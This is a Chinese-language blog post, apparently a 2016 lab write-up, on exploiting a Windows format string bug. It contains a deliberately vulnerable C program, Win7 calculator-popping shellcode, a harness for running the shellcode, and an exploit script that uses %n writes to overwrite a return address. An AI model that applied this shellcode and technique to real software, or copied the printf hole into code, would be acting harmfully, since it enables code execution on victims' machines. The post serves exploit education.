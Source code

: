 ```yaml
---
layout:     post
title:      "windows格式化字符串漏洞探究"
subtitle:   "姑且定义为一个集合Fsb漏洞构造、分析、利用的小实验"
date:       2016-11-17 11:40:25
author:     "Carter"
header-img: "img/post-bg-re-vs-ng2.jpg"
header-mask: 0.3
catalog:    true
tags:
    - OS
    - PWA
---
```



> 下滑这里查看更多内容


### [Watch Slides → ](https://huangxuan.me/pwa-qcon2016/)

<img src="https://huangxuan.me/pwa-qcon2016/attach/qrcode.png" width="350" />


###**知识点：**
- windows下的格式化字符串fsb利用   
- 利用mona查询各个模块开启安全机制   
- win7弹计算器shellcode
- 如何调试shellcode

###一. 程序代码：
```
#include "stdafx.h"
#include<stdio.h>
#include<stdlib.h>
#include <string.h>
int main (int argc, char *argv[])
{
	char buff[1024];
	FILE*f;
	
	f=fopen("flag.txt","r");
	fread(buff,1024,3,f);
   	printf(buff); //触发漏洞
  return 0;
}
```
 程序的流程是从flag.txt中读取字符串，再打印出来。很明显，程序中存在一个windows下的格式化字符串漏洞。

###二. 基本知识：
#####**1. 格式化字符串相关知识**
%x：依次打印出栈上数据
[图片]
%100x：指定数据打印时显示长度为100字节
[图片]
%n：打印出栈上数据作为地址时，该地址的内容（当该地址不可达时，就会崩溃）

#####**2. 设置immunity debugger为默认调试器**
直接在注册表里修改，该方法比较简单粗暴
[图片]
[图片]
(PS：同样方法，win7下设置Ollydbg为默认调试器一直失败，但是设置immunityDbg为默认调试器则可以，不知道为什么)

#####**3. windows7_32bit 弹计算器shellcode**
```
shellcode = '\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5'
```

#####**4.  如何调试shellcode**
```
#include "stdafx.h"
#include<stdio.h>
#include<windows.h>

int main(int argc, char* argv[])
{
    //导入ShellCode中要使用的.dll
    LoadLibrary("kernel32.dll"); 
    char shellcode[256] = "\x90\x90\x90...\x90";        

    __asm{ 
       lea eax,shellcode 
       push eax 
       ret;           //ret到ShellCode处
    } 
	return 0;
}
```
结合IDA，定位到具体代码，就可以跟进到shellcode处，查看shellcode的执行情况了
#####**5. 查看程序开启安全机制**
在immunity Debugger中，使用 

> !mona modules

可以查看程序加载的各个模块对应开启的安全机制
[图片]
上图可见，对于程序本身什么安全机制都没开启。因为程序没有开启数据执行保护DEP，所以可以把shellcode放在栈上，攻击返回地址后跳转到shellcode处执行。


###三. 漏洞调试
首先使用'%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
[图片]
使用'%x-%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
[图片]
从上面两次尝试中可以看出，程序崩溃是因为'%n'这个参数，在
```
mov ptr[EAX], ECX
```
这条指令时因为EAX内容作为地址不可达，所以触发程序崩溃。
崩溃时EAX是当时'%n'应该打印的那个栈地址内容，ECX是崩溃时已经打印出来的字符长度：
```
%x-%x-%x-%n --> ECX：0xD=13
%x-%x-%x-%x-%n --> ECX：0x16=22
```
对比下图，可以验证说法正确性
[图片]

###四. 漏洞利用
我们可以通过控制打印栈上内容的数量（即增加%x的数量），控制EAX的值。可以通过控制打印字符的长度（用%100x，%200x等来控制打印长度），控制ECX的值。最后利用mov ptr[EAX],ECX来任意地址写。

内存任意写写哪个地方--------最快捷的方法，就是覆盖最近函数的返回地址为shellcode的地址

alt+k查看栈回溯，可以看到最近的一个返回地址存储在栈地址0x12faf0
[图片]
崩溃时，查看栈，确定存储输入的起始地址是0x12fb48
[图片]
所以我们的目的就是令：EAX=0x12faf0  ECX=0x12fb48

###五. 编写漏洞利用脚本
输入构造为：
shellcode相应多的%x一些%nx来调整输出长度需要被覆盖的地址
exp1.py
```
shellcode = '........'
ret_addr = '\xf0\xfa\x12\x00'
input1 = shellcode + '-%x'*218 + '%414000x' + '%414000x' + '%413908x' + '%n' + ret_addr

with open('flag.txt','wb') as f:
	f.write(input1)    
```

为了效果，我在shellcode开头字节设置了0xCC -- int3，运行exp.py生成flag.txt，运行fsb.exe从flag.txt读取字符后使用printf函数打印，成功触发Fsb漏洞
[图片]
弹出可爱的计算器
[图片]

##六. 问题解决
**问题描述：**

 之前实验中使用strcpy复制字符串到内存，但是发现有些字节复制到内存后变为了'\x3f' -- '?'，比如：
 ```
\x8b\x36 -- \x3f
```
**解决方法：**

strcpy和strncpy都是针对可见字符而言的，不能复制不可见字符，且遇到'\x00'就停止复制。

与 strcpy() 不同的是，memcpy(*memTo,*memFrom,num) 会完整的复制 num 个字节，对复制内容没有限制，也不会因为遇到“\0”而结束。

PS: 在此最终采用了fread函数从文件中读取的方式读取payload到内存


参考链接：
http://bbs.pediy.com/showthread.php?t=213153